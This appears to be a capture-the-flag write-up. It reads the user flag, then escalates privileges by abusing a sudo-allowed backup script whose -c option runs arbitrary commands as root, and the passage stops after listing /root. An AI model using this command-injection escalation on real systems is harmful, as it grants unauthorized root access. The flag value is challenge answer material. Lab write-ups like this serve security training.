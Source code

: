 **Question**
#### What is the user.txt flag?

Let's SSH the server and find the first flag
```
alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos  user.txt
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
**Answer** 
#### flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

---
### Privilege escalation

```
sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

Let's check **backup.sh**

It looks like a script to backup mp3 files. One part of this script drew my attention
```
while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done
```
If we add an argument **-c** when we execute the script, we can pass the output to **cmd**
```
cmd=$($command)
echo $cmd
```

Now we can use launch the script with the argument **-c** to read the content of **root.txt**

- First: Check if we can read root directory
```
sudo /etc/mp3backups/backup.sh -c "ls /root"
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: '/run/user/108/gvfs': Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
```
